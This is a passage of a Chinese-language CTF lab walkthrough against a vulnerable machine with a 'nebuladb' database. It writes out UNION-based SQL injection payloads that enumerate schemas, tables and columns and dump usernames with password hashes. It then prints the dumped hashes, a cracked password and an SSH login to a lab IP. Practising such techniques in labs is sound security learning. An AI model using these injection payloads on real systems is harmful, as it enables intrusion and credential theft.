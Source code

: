 看来是前面那个，又是个查询信息的地方，猜测又是sql注入漏洞。。。。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190148130.png" alt="image-20240318213009846" style="zoom:50%;" />

果然。。。。

```bash
ctf' union select schema_name,2,3 from information_schema.schemata-- -
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190148131.png" alt="image-20240318213135764" style="zoom:50%;" />

```bash
ctf' union select table_name,2,3 from information_schema.tables where table_schema="nebuladb"-- -
```

![image-20240318213238316](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190148132.png)

```bash
' union select column_name,2,3 from information_schema.columns where table_schema="nebuladb" and table_name="users"-- -
```

![image-20240318213422011](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190148133.png)

```
' union select concat(username, password),2,3 from nebuladb.users-- -
' union select username, password,3 from nebuladb.users-- -
```

![image-20240318213740351](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190148134.png)

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190148135.png" alt="image-20240318213817585" style="zoom:50%;" />

```apl
admin					d46df8e6a5627debf930f7b5c8f3b083	
pmccentral				c8c605999f3d8352d7bb792cf3fdb25b	
Frederick				5f823f1ac7c9767c8d1efbf44158e0ea	
Samuel					4c6dda8a9d149332541e577b53e2a3ea	
Mary					41ae0e6fbe90c08a63217fc964b12903	
hecolivares				5d8cdc88039d5fc021880f9af4f7c5c3	
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190148136.png" alt="image-20240318214155755" style="zoom:50%;" />

### ssh登录

```apl
pmccentral	      999999999
```

```bash
ssh pmccentral@10.0.2.5
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190148137.png" alt="image-20240318214315623" style="zoom:33%;" />

